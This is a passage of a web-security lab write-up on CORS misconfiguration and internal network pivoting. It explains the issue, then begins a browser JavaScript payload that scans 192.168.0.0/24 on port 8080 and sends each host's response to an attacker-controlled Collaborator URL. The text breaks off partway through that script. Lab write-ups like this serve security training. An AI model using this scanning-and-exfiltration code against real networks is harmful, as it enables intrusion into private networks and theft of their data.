 Most CORS attacks rely on the presence of the response header:
```js
Access-Control-Allow-Credentials: true
```
Without that header, the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

f a website is on a company's private network (intranet) with a special, non-public internet address(Private ip address), it's harder for outside attackers to reach it directly. But because these internal sites might have weaker security, attackers can sometimes exploit weaknesses to get in and cause problems.

**For example, a cross-origin request within a private network may be as follows:**
```js
GET /reader?url=doc1.pdf 
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

**And the server responds with:**
```js
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: *
```
- The application server is trusting resource requests from any origin without credentials.
- When people in a private network connect to the internet, attackers can use their web browsers to access the private network's resources through a technique called CORS-based attack, without their knowledge.

## Steps to solve lab
### Title - CORS vulnerability with internal network pivot attack

**Desc** - This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all internal network origins. This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (`192.168.0.0/24`, port `8080`) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user `carlos`.

##### Steps to complete the exercise:
1. Scan the local network (192.168.0.0/24) for endpoints that have port 8080 open.
2. Create a CORS-based attack to delete the Carlos user.

1. From the lab description, we already know that there is insecure cors configuration on the website and for that first we are going to scan the local network(192.168.0.0/24, port 8080).

**Script to scan the local network** - 
```js
<!-- Scanning which IP(in range 192.168.0.0 ) is running web service on port 8080 -->

<html>
	<script>
		collaboratorURL = 'http://w638wusq9v08mm9rfq3w1lhm4da4yumj.oastify.com'; // Storing collaborator url in variable
		// Iterating through range of IP's
		for(let i=0; i<256; i++){
			fetch('http://192.168.0.'+i+':8080') //send the request
			.then(response => response.text()) // Fetch the response
			// If the response contains text then do the below stuff
			.then(text => {
				try{
					fetch(collaboratorURL + '?ip=' + 'http://192.168.0.'+i+"&code=" + encodeURIComponent(text))
				}catch(err){
					
```